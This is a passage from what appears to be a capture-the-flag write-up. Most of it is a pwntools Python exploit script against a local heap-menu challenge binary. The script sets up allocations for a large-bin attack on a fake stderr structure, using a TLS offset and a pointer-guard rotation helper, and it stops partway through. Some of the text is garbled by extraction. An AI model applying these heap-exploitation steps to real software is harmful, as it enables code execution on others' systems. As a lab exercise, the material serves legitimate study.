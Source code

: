 ```python
edit(1,17*8,payload)
sendit()
```

## payload

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *$rebase(0x1289)\nb *$rebase(0x1536)\nb *$rebase(0x15a4)\n *$rebase(0x13dd)\n"
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pwn")
#pt = remote(host, port)
libc = ELF('./libc.so.6')

pl = ""
tls_offset = 0x3c0740

def add(index, size):
#size(0x40f,0x500]
	global pl
	pl += p8(1)
	pl += p8(index)
	pl += p16(size)

def delet(index):
	global pl
	pl += p8(2)
	pl += p8(index)

def	show(index):
	global pl
	pl += p8(3)
	pl += p8(index)

def edit(index, size, str):
	global pl
	pl += p8(4)
	pl += p8(index)
	pl += p16(size)
	pl += str

def sendit():
	global pl
	pl += p8(5)
	p.sendlineafter("opcode\n", pl)
	pl = ""

def ROL(content, n):
	num = bin(content)[2:].rjust(64,'0')
	return int(num[n:]+num[:n],2)

add(0,0x420)
add(1,0x440)
add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
add(3,0x440)
```